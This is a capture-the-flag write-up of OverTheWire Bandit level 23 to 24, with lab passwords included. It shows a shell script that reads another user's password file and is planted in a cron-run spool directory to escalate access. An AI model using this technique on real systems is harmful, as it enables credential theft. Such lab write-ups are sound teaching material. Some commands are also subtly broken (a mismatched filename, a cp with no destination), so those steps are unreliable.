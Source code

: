 ```yaml
---
layout: post
author: mike
series: bandit
categories: [bandit,security] 
---
```


### Level 23 -> 24
#### Game Instructions
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

>NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

This one looks a bit similar to the previous 2 levels... Let's dig in!

```
ssh -p 2220 bandit23@bandit.labs.overthewire.org
password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

As the hint says: We need to investigate the `/etc/cron.d` file to see what is happening:
```sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

We can see that the file is systematically (every 60 sceonds) running every script **as root** in the `/var/spool/$myname` directory and immediately deleting the file after executing.

Because the script is being run as root, we can exploit this if we can manage to get a script in the `/var/spool/bandit24` directory that spits on the password.
First, let's create a directory to do some work in:
`mkdir /tmp/myfancydirectory`
And a file that the password will be copied to:
`touch /tmp/myfancydirectory/thisisthepassword`
Next, let's whip up a simple script:
`nano istealyourpass.sh`
```
#!/bin/bash

cat /etc/bandit_pass24 > /tmp/myfancydirectory/thisisthepassword
```
This will copy the password to a file called `thisisthepassword`
Let's `chmod` it so the script can execute it
`chmod 777 /tmp/myfancydirectory/istealyourpass`
Now let's quickly copy the file to the `/var/spool/bandit24` directory so it can be picked up
`cp /tmp/myfancydirectory/istealyourpass`
And we wait for it to run.
After a little bit we check the directory and bam we have the password:
New password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
